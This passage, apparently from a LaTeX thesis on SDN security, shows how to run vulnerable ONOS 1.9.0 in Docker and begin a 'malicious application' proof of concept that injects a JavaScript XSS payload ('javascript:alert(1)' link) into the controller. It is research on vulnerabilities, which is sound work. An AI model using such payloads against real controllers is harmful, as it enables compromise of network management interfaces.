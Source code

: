 To download the ONOS version 1.9.0 docker image to your machine, run the following command.
\begin{lstlisting}[language=bash]
sudo docker pull onosproject/onos:1.9.0
\end{lstlisting}

Once the Docker image of ONOS version 1.9.0 have been installed, it's possible to start the controller using this command. The "run" subcommand starts the container using the the chosen image defined in the last field. The -t (or --tty) flag tells Docker to set up a console within the container. The -p (or --port) flag tells Docker which ports should be exposed outside of the internal Docker network. The --name flag defines the name of the container.
\begin{lstlisting}[language=bash]
sudo docker run -t -p 8181:8181 -p 8101:8101 -p 6653:6653 -p 5005:5005 -p 830:830 --name onos onosproject/onos:1.9.0
\end{lstlisting}

Once ONOS is set up, it is possible to set up the data plane too using Mininet as already explained in previous sections (even if in this attack is not necessary to do so).
\medskip

The malicious application to be developed does not differ much from the others that have been explained and of which the source code is present in this document. For example it is important to remember to update the pom.xml file with the right version of ONOS in all the fields needed to correctly compile the application and use it with the vulnerable version of ONOS.
\begin{lstlisting}
    <parent>
        <groupId>org.onosproject</groupId>
        <artifactId>onos-dependencies</artifactId>
        <version>1.9.0</version>
        <relativePath/><!-- parent is remote -->
    </parent>
...
    <properties>
        <onos.version>1.9.0</onos.version>
\end{lstlisting}

Omitting the imports, the application does not differ from the previous ones: the logger for the built-in logs of ONOS is defined and the various references to the mandatory components that must be present in the ONOS environment for the correct functioning of the application are being defined too. The Javascript payload that will be used in the attack is also defined here.
\begin{lstlisting}[language=java,firstnumber=41]
/**
 * XSS device POC application
 */
@Component(immediate = true)
public class XssDevicePoc {

    private final Logger log = LoggerFactory.getLogger(getClass());

    private final String PAYLOAD = "<a href=javascript:alert(1)>CLICKME</a>";

    @Reference(cardinality = ReferenceCardinality.MANDATORY_UNARY)
    protected CoreService coreService;
...
\end{lstlisting}

